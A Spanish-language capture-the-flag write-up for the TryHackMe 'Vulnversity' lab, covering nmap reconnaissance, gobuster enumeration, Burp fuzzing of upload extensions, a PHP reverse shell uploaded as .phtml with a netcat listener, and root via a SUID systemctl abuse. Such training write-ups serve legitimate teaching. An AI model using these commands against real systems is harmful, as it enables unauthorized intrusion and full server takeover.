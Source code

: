 ```yaml
---
title: Tryhackme - Vulnversity
author: nik0
date: 2020-11-14 14:10:00 +0800
categories: [Write up]
tags: [THM,Vulnversity]
---
```

![Vulnversity logo!](/assets/img/sample/vulnlogo.png)


## Introducción

En este write up veremos la máquina Vulnversity de Tryhackme, veremos temas cómo reconocimiento activo, ataques a aplicaciones web y escalación de privilegios explotando binarios.

## Reconocimiento

Primero haremos un escaneo con nmap para ello utilizamos el comando ```sudo nmap -sC -sV "ip"``` y el output que nos muestra es el siguiente:

```terminal
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-13 21:03 -03
Nmap scan report for 10.10.128.154
Host is up (0.27s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m19s, deviation: 2h53m12s, median: 19s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2020-11-13T19:04:45-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-14T00:04:46
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.43 seconds
```
Primero probé con el puerto 21, pero no habia ningún exploit para esa versión, luego intenté conectarme para ver si tenía acceso anónimo y nada, después seguí con ssh, y tampoco habían exploits disponibles para esa versión, continué con samba buscando recursos compartidos y estaba todo sin acceso con SMBMAP, luego termino con el puerto 3333 que es http y si pongo la ip de la máquina con el puerto me sale esto:

![1](/assets/img/sample/1.jpeg)

Indagando más a fondo en la página (mirando el codigo fuente etc) me di cuenta de que es solo frontend así que empecé a enumerar directorios con gobuster

## Localizando directorios con Gobuster

Con el comando ```gobuster dir -u http://10.10.128.154:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 150``` enumeramos los directorios escondidos que puede tener la página web, OJO: no es recomendable aumentar los threads porque se podría hacer una denegación de servicio o te podría bloquear un firewall, en todo caso con la herramienta W4fw00f se puede saber si un sitio tiene firewall o no, finalmente este es el resultado de Gobuster:

```terminal
2020/11/13 21:43:55 Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
===============================================================
```
El directorio ```/internal``` se ve interesante y si ponemos esto en la url del sitio nos lleva a esto:

![2](/assets/img/sample/2.png)

Encontramos una subida de archivos, donde podemos subir una shell y así posteriormente tener conexión reversa con el servidor, o un backdoor así que primero vamos a abrir burpsuite para saber que tipo de extension es admitida para poder subir nuestro backdoor

![3](/assets/img/sample/3.png)

ahí subimos el archivo test.jpg y lo interceptamos con burpsuite y ahora lo mandamos a intruder para posteriormente hacer fuzzing al objetivo

![4](/assets/img/sample/4.png)

Luego nos vamos a payloads y cargamos las posibles extensiones que permitirían la subida del archivo, pueden usar la lista que ustedes les guste más

![5](/assets/img/sample/5.png)

Y ejecutamos el ataque, el resultado es el siguiente:

![6](/assets/img/sample/6.png)

Podemos ver que aceptó la extensión .phtml porque cambió la longitud y si se renderiza via web igual se puede ver

Ya que encontramos el directorio donde se pueden subir archivos, tenemos que encontrar en donde se alojan para poder ejecutar nuestro backdoor

Así que utilizamos nuevamente Gobuster para enumerar directorios en el mismo de /internal

El comando a utilizar sería ```gobuster dir -u http://10.10.6.52:3333/internal -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```

Output:
```terminal
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.6.52:3333/internal
[+] Threads:        100
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/13 22:44:15 Starting gobuster
===============================================================
/uploads (Status: 301)
/css (Status: 301)
```
Podemos ver que hay un subdirectorio llamado /uploads y se ve así:

![7](/assets/img/sample/7.png)

Ahora procedemos a subir nuestra shell

## Comprometiendo el servidor web

usamos el comando ```cp /usr/share/webshells/php/php-reverse-shell.php shell.phtml``` para mover nuestra shell y poner la extensión .phtml (OJO: hay que editar la shell y cambiar la ip y el puerto!)

luego la subimos en /internal

ponemos a la escucha netcat con el comando ```nc -lnvp TUPUERTO``` en mi caso era el 443 así que era ```nc -lnvp 443```

lo ejecutamos en /uploads

si todo salió bien, debería aparece algo así en la terminal:

![8](/assets/img/sample/8.png)

ponemos el comando ```uname -a``` para imprimir información sobre el SO

Para mayor comodidad en la terminal se puede hacer una shell TTY interactiva (Buscar en Google)

Ahora que ya estamos dentro, podemos ir escalando privilegios

## Escalando Privilegios

Primero lo que vamos a hacer es usar este comando ```find / -perm -u=s -type f 2>/dev/null``` para buscar desde la raíz el permiso para usuario SUID, porque queremos explotar permisos SUID? porque hay algunos binarios por ej: passwd se ejecuta como root y eso se puede explotar para poder ir escalando privilegios localmente.


Hay una página que se llama GTFOBins, sirve para encontrar binarios Unix que ayuda para hacer una escalada de privilegios, vamos a utilizar esta página para poder comparar los binarios de la máquina actual y los de GTFObins para así poder filtrarlos (Pueden hacer un script o hacerlo manualmente)

Entonces nos da por resultado /bin/systemctl

Ahora que ya sabemos el binario que vamos a explotar, lo buscamos en GTFObins y seguimos las instrucciones:

![GTFO](/assets/img/sample/GTFO.png)

La primera línea ```sudo sh -c 'cp $(which systemctl) .; chmod +s ./systemctl'``` la vamos a ignorar, no la necesitamos por el momento, ahora lo que vamos a hacer es editar la línea de comando ```ExecStart=/bin/sh -c "id > /tmp/output"``` para poder ejecutar /bin/bash, ya que si hacemos un ls -la /bin/bash podemos notar que este se ejecuta cómo root entonces cuando nosotros ejecutemos bash, este se lanzará cómo usuario root, entonces la línea de código sería así:  ```ExecStart=/bin/sh -c "chmod +s /bin/bash"```

Ahora en la consola escribimos bash -p y si salió todo bien, debería aparecer algo así: 

![10](/assets/img/sample/10.png)

Y ahora que ya tenemos root, también podemos sacar el user.txt ;)


